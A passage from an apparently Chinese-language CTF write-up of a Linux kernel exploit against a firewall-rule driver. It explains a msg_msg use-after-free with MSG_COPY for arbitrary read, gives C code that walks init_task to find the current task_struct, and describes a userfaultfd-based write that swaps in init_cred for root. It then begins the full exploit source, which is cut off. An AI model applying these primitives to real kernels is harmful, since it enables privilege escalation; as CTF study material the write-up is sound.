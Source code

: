 这样我们得到了内核基址，init_task和init_cred。

## 任意地址读 & task_struct 遍历

我们使用了`MSG_COPY`，内核中的消息并没有被free，可供我们多次读取。我们可以UAF修改next字段为任意值，实现任意地址读。

通过遍历init_task的tasks链表，找到当前进程的task_struct。

```c
  printf("[*] Task struct searching...\n");

  pid_t pid = getpid();
  printf("[+] self pid:\t%d\n", pid);
  uint64_t cur = init_task;
  for (;;) {
    pid_t cur_id = 0;

    bzero(rule->ip, 16);
    ip_value_to_str(cur + 0x290, rule->ip, 16);
    ip_value_to_str((cur + 0x290) >> 32, rule->netmask, 16);
    ioctl(global_fd, EDIT_RULE, rule);
    bzero(dump, 0x1500);
    ret = msgrcv(qid, dump, 0x1500, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
    if (ret < 0) {
      die("[!] Failed to recv message");
    }

    // read pid
    cur_id = *((uint32_t *)((uint64_t)dump + 0x10d8));
    printf("[+] cur:\t0x%lx, pid:\t%d\n", cur, cur_id);
    if (cur_id == pid) {
      task_struct = cur;
      break;
    }
    // next
    cur = *((uint64_t *)((uint64_t)dump + 0xfe0)) - 0x298;
  }
  printf("[+] task_struct:\t0x%lx\n", task_struct);
```

## 任意地址写

在发送消息时，内核先将内存空间准备好，再进行数据拷贝。我们可以使用userfaultfd，在其拷贝msg_msg结构数据时，挂起。修改其next字段指向当前进程的cred-8，保持segment的next为NULL。

释放，修改cred和real_cred为init_cred实现提权。

## EXP

```c
#include "./exploit.h"

#define ADD_RULE 0x1337babe
#define DELETE_RULE 0xdeadbabe
#define EDIT_RULE 0x1337beef
#define SHOW_RULE 0xdeadbeef
#define DUP_RULE 0xbaad5aad

#define INBOUND 0
#define OUTBOUND 1
#define SKIP -1

#define DESC_MAX 0x800

typedef struct {
```